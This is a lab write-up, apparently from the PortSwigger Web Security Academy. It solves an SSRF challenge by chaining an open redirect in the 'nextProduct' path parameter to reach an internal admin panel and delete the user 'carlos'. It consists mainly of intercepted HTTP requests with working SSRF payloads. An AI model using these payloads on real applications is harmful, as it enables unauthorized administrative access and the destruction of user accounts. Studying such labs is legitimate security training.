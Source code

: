 
## Intercepting the main stock-fetch request in BurpSuite

	POST /product/stock HTTP/2
	Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
	Cookie: session=9ckG0lZjY6vYlKra7nWVEjhlSqMPsACN
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 66
	Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	Priority: u=0
	Te: trailers

	stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

	# with 'urlencode' extension

	stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

>	I need to bypass regular CSRF protection.
>	On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

	POST /product/stock HTTP/2
	Host: 0ada002903771ef981f21191008e009e.web-security-academy.net
	Cookie: session=GiloAmgR82WUDxFpXpN6kCd7klA4boEr
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: https://0ada002903771ef981f21191008e009e.web-security-academy.net/product?productId=2
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 99
	Origin: https://0ada002903771ef981f21191008e009e.web-security-academy.net
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	Priority: u=0
	Te: trailers

	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=/product?productId=5</@urlencode>


> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/”
> and receive a response with access to the admin panel.

	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

>	I access the admin panel and users. I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'

	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>


## LAB solved
